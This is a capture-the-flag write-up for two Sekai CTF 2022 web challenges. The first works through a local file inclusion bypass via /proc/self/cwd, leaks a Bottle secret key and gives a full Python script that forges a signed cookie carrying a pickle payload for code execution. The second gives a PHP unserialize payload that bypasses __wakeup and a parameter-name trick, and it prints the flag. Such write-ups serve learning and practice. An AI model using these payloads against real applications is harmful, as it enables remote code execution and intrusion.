



# Sekai CTF - 2022 
## Bottle Poem
#### about :
- Type: web 
- Level: easy
- Points : 100

<center></center>

as we request the url the html code gives away an LFI vulnerabilty : 
```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Sekai’s boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
	<h1 class="my-8 text-4xl font-bold text-center">Read some poems in my Bottle</h1>
	<ul>
		<li><a class="text-blue-300 underline hover:no-underline" href="/show?id=spring.txt">Spring</a></li>
		<li><a class="text-blue-300 underline hover:no-underline" href="/show?id=Auguries_of_Innocence.txt">Auguries_of_Innocence</a></li>
		<li><a class="text-blue-300 underline hover:no-underline" href="/show?id=The_tiger.txt">The_tiger</a></li>
	</ul>
</body>
</html>
```
As we try to reach the application source code , it seems we can't find ait , and the weird part was when i request `../app.py` it responds with `No!!!!` , something was suspicious.

Instead of requestin ../app.py  , i tried the `/proc/self/cwd/app.py` and it worked : 

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")
@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile
@error(404)
def error404(error):
    return template("error")
@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

Everythin seems to be good so far, we can retrieve the secret from `/proc/self/cwd/config/secret.py` 

> sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"

Further search on bottle module, i found that the `cookie_decode` unpickles data , which in this case , having the secret key can lead to RCE using the pickle library , you can find this feature [here](https://bottlepy.org/docs/dev/tutorial.html)

<center></center>

the final payload looks like this : 

```python
import base64,hashlib,pickle,hmac
import os
def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)


def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, 0))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg

class test():
    def __reduce__(self):
        return (eval,('__import__("os").popen("/flag")',))


obj = test()
a = cookie_encode(obj,'Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu')
print(a)
```

## Sekai Game Start
#### about :
- Type: web 
- Level: medium
- Points : 260

<center></center>

getting to the website we found the source code of the application: 
```php
<?php
include('./flag.php');
class Sekai_Game{
    public $start = True;
    public function __destruct(){
        if($this->start === True){
            echo "Sekai Game Start Here is your flag ".getenv('FLAG');
        }
    }
    public function __wakeup(){
        $this->start=False;
    }
}
if(isset($_GET['sekai_game.run'])){
    unserialize($_GET['sekai_game.run']);
}else{
    highlight_file(__FILE__);
}

?>
```
seems to be Insecure deserialization vulnerabilty the payload is `C:10:"Sekai_Game":0:{}` by bypasing the `__wakeup` magic function , you can find it [here](https://bugs.php.net/bug.php?id=81151).  the only issue is how to submit the payload , php by default converts `.` in all parametre names to `_` , as the version is earlier than 8  , there is a way around this , using `[` php ignores all `.` and only converts `[` to `_` the parametre can then be `sekai[game.run` , the final payload is : 
`sekai[game.run=C:10:"Sekai_Game":0:{}`

**flag :** SEKAI{W3lcome_T0_Our_universe}